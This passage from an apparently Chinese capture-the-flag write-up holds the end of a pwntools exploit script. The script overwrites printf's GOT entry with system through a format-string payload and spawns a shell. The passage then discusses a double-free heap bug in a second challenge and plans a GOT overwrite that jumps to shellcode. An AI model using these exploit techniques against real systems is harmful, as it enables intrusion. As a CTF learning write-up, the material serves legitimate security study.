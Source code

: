 ```
    printf_got = elf.got['printf']
    print 'printf_got =&gt; ' , hex(printf_got)
#find printf_addr &amp; system_addr 
    system_addr = libc.symbols['system']
    print 'system_addr =&gt; ' , hex(system_addr)
#make stack
    make_stack = 'a' * 0x30 + p32(printf_got) + p32(printf_got + 0x1) 
    fms(make_stack)
#write system to printf
    payload = "%" + str(((system_addr &amp; 0x000000FF))) + "x%18$hhn"
    payload += "%" + str(((system_addr &amp; 0x00FFFF00) &gt;&gt; 8) - (system_addr &amp; 0x000000FF)) + "x%19$hn" 
    print payload
#get shell
    fms(payload)
    p.sendline('/bin/shx00')
    p.interactive()
# define symbols and offsets here
if __name__ == '__main__': 
    pwn()
```

**0x02 Pwn2**

同样先进行分析

[![](https://p3.ssl.qhimg.com/t016275ea714c4cfaa3.png)](https://p3.ssl.qhimg.com/t016275ea714c4cfaa3.png)

这里chunk_number能到48，但是free检测到47，释放掉一个之后 list[45]=list[46]，所以这里存在double free漏洞

这里啰嗦几句吧 这题出的还是有难度的  这里想讲自己错误的思路 然后在分析正确思路

错误思路：

没有开nx 所以bss可任意读写

将chunk_number的值设置成21，然后两次写，最后覆盖到了list，这时在create一个list，应该就能覆盖到got表了

通过fastbin该num进行覆盖 但是因为多了一个0x10会破坏掉堆

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t013fb290697fd6db25.png)

认为这里存在任意读 但是发现无法利用 

若还是将chunk_number写21然后free(&amp;chunk_number-8),然后 malloc就能进行对chunk_number+8  写内容了

但是却只能写到chunk_number下面 

这里可以leak堆地址 但是却无法控制eip 导致死死地卡在这里

正确思路： 前面思路中分析的漏洞点都没有问题 所以这里不再重复 

错误的只是思路问题 和利用方式

往got上面写heap地址 然后jmp shellcode
